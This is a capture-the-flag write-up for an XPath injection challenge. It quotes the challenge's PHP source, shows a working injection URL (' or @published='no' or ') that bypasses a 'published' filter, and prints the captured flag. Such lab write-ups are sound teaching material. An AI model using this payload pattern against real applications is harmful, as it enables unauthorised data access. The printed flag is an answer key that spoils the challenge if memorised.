


# Yet Another Injection

## Description 
SQL is not the only target of injection attacks.

http://yai.sstf.site

Note: If this challenge is too difficult for you,
please revisit SQLi 101 and SQLi 102.
The principle is the same as SQLi.

## Solution
I managed to solve it fast enough to be the top 3 though it was easy challenge.



We have the login form and the `hint`.



`hint` lets us know we can see all sources with `showsrc` parameter.

```php
<?php
    if (isset($_GET['showsrc']) && in_array($_GET['showsrc'], Array('index.php', 'login.php', 'library.php', 'paperdetail.php'), true)) {
        highlight_file($_GET['showsrc']);
    }
?>
```

We can login with `guest:guest`.

```php
        array_push($users, "guest:".hash("sha256", "guest"));
```

After examining the injection points except for SQLi as the description suggests, I figured out we can do XPath injection on `$idx`.

```php
function getDetail(DomDocument $papers, string $idx) {
    $xpath = new DOMXPath($papers);
    $query = "//Paper[Idx/text()='".$idx."' and @published='yes']";
    $paper_list = $xpath->query($query);
    // ...
```

I can get the flag with the below injection.

```
http://yai.sstf.site/paperdetail.php?idx=' or @published='no' or '
```

## Flag
`SCTF{W4KE_up_IT's_mOndAy_m0rn1n9_183689c7}`